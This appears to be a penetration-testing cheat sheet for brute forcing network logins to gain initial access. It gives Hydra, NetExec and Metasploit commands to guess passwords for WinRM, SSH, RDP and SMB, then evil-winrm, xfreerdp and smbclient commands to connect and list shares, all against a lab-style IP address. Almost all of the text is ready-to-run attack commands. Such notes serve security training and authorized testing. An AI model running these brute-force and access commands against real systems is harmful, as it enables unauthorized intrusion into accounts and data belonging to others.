 # Network Password Attacks

Commands and tools for brute forcing network services (WinRM, SSH, RDP, SMB) to gain initial access.  
Each section explains the purpose and how the commands are typically used.

---

## Tools

```bash
sudo apt-get -y install netexec
sudo gem install evil-winrm
```

---

## WinRM – [NetExec](https://github.com/Pennyw0rth/NetExec)

WinRM often exposes remote PowerShell access on Windows systems.  
With valid credentials, [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) provides an interactive session.

```bash
# Brute force with NetExec
netexec winrm 10.129.42.197 -u user.list -p password.list

# Connect interactively once creds are valid
evil-winrm -i 10.129.42.197 -u user -p password
```

---

## SSH – Hydra

SSH is a common brute force target if password authentication is enabled.  
Hydra can quickly attempt user/pass combinations.

```bash
# Brute force SSH with Hydra
hydra -L user.list -P password.list ssh://10.129.42.197

# Connect manually once creds are found
ssh user@10.129.42.197
```

---

## RDP – Hydra

RDP brute forcing is slower but can provide full desktop access if successful.  

```bash
# Brute force RDP with Hydra
hydra -L user.list -P password.list rdp://10.129.42.197

# Connect interactively with xfreerdp
xfreerdp /v:10.129.42.197 /u:user /p:password
```

---

## SMB – Hydra or Metasploit

SMB shares often reveal sensitive data. Weak creds can be brute forced with Hydra or Metasploit.

```bash
# Hydra brute force
hydra -L user.list -P password.list smb://10.129.42.197

# Metasploit module
msf6 > use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list

# Enumerate shares with NetExec
netexec smb 10.129.42.197 -u "user" -p "password" --shares

# Access a share manually
smbclient -U user \\10.129.42.197\SHARENAME
```